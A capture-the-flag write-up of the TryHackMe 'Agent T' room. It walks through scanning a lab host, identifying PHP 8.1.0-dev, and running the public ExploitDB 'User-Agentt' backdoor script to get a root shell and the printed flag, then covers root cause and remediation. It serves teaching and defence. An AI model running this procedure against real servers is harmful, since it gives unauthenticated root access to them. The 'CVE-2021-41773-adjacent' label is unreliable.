



# Agent T — CTF Writeup

**Platform:** TryHackMe  
**Room:** [Agent T](https://tryhackme.com/room/agentt)  
**Category:** Web  
**Difficulty:** Very Easy  
**Date:** 2026-11-12

## Overview

A very easy web challenge built around a dev-branch PHP server
(`8.1.0-dev`) that ships a known backdoor exploitable via a crafted
`User-Agentt` HTTP header, leading directly to remote code execution as
root.

**Final result:** Remote code execution / root shell via the PHP
8.1.0-dev `User-Agentt` backdoor (CVE-2021-41773-adjacent PHP dev-branch
backdoor, ExploitDB #49933).



---

## 1. Reconnaissance

### Target

Lab machine IP:

```
10.48.148.45
```

Browsed to `http://10.48.148.45/` — rendered as an "Admin Dashboard"
template. Most navigation links on the page redirected to a generic
"Not Found" page.




### Port/service scan

```
nmap -sC -sV 10.48.148.45
```

| Port  | Service | Version                              |
|-------|---------|----------------------------------------|
| 80/tcp| http    | PHP 8.1.0-dev (unrecognized by nmap, fingerprinted via headers) |

The `X-Powered-By` header in the HTTP response directly disclosed the
PHP version:

```
X-Powered-By: PHP/8.1.0-dev
```

---

## 2. Enumeration

With the exact PHP version in hand (`8.1.0-dev`), no further directory
or service enumeration was needed — `8.1.0-dev` is a known, intentionally
vulnerable dev-branch release with a public, well-documented backdoor.

```
searchsploit PHP 8.1.0-dev
```

```
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution | php/webapps/49933.py
```

```
searchsploit -m 49933
```

---

## 3. Initial Access / Exploitation

PHP 8.1.0-dev contains a supply-chain backdoor that executes arbitrary
code when a specially crafted `User-Agentt` HTTP header is sent to the
server. The public ExploitDB script (`49933.py`) automates sending this
header and opens an interactive shell.

```
python3 49933.py
Enter the full host url:
http://10.48.148.45/
```

```
Interactive shell is opened on http://10.48.148.45/
```

### Verification

```
$ whoami
root
```

The web server itself was running as `root`, so the initial exploit
landed directly as root — no separate foothold/escalation phase existed
for this room.

**Flag:**

```
$ cat /flag.txt
flag{4127d0530abf16d6d23973e3df8dbecb}
```

---

## 4. Privilege Escalation

Not applicable — the RCE landed directly as `root` since the PHP
development server was running with root privileges.

---

## 5. Root Cause

- The target was running PHP `8.1.0-dev`, a development snapshot that
  (in real-world history) briefly shipped with a malicious backdoor
  inserted via a supply-chain compromise of the PHP source repository.
- The backdoor triggers on a specially crafted `User-Agentt` header and
  evaluates attacker-supplied PHP code, giving immediate remote code
  execution with no authentication required.
- Running the web service as `root` turned an already-critical RCE into
  full system compromise with zero extra steps.

## 6. Remediation

- Never deploy development/nightly-branch software (especially
  language runtimes) to production or internet-facing systems — only
  use official, signed stable releases.
- Verify the integrity/provenance of language runtimes and toolchains
  to catch supply-chain backdoors before deployment.
- Run web services as a dedicated low-privilege user, never `root`, so
  that a single RCE doesn't equal full system compromise.
- Monitor and restrict outbound/unusual HTTP headers at the WAF level
  as defense-in-depth against known backdoor trigger patterns.

---

## Tools Used

`nmap`, `searchsploit`, Python (ExploitDB PoC script)
